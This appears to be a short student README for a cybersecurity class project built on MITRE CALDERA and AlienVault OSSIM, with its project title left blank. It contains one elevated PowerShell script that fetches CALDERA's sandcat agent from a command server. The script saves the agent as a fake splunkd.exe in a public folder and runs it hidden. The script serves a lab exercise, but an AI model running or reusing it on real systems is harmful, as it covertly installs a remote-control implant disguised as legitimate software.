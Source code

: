 # Cybersecurity
This repository will contain our final project for our cybersecurity class. We will show the command, and mostly the screenshot and the report of our overall project.


Our final project title is:



In this project, we utilize MITRE CALDERA and Alien Vault OSSIM.


Code below show the powershell script that we would need to run on an elevated privilage (run as administrator)
```powershell
$server="http://192.168.0.142:8888";
$url="$server/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","sandcat.go");
$data=$wc.DownloadData($url);
get-process | ? {$_.modules.filename -like "C:\Users\Public\splunkd.exe"} | stop-process -f;
rm -force "C:\Users\Public\splunkd.exe" -ea ignore;
[io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;
Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
```

